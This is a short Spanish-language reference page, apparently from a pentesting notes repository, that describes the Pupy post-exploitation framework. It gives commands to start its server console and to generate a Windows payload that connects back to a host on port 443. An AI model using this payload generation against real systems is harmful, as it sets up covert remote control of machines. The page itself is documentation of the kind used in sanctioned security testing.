 ### **Post-Explotación/Frameworks/Pupy.md**

# Pupy

## Descripción

**Pupy** es un framework multiplataforma de código abierto para post-explotación y administración remota. Soporta Windows, Linux, macOS y Android, proporcionando funcionalidades avanzadas para pruebas de seguridad.

## Uso

Configurar el servidor y generar payloads para los sistemas objetivo.

### Opciones principales

- **pupysh.py**: Consola interactiva del servidor.
- **pupygen.py**: Generador de payloads.

## Ejemplos

- Iniciar la consola del servidor:

  ```bash
  python pupy/pupysh.py
  ```

- Generar un payload para Windows:

  ```bash
  python pupy/pupygen.py -f exe_x86 -o payload.exe connect --host 192.168.1.100:443
  ```

- Gestionar sesiones de agentes conectados desde la consola.
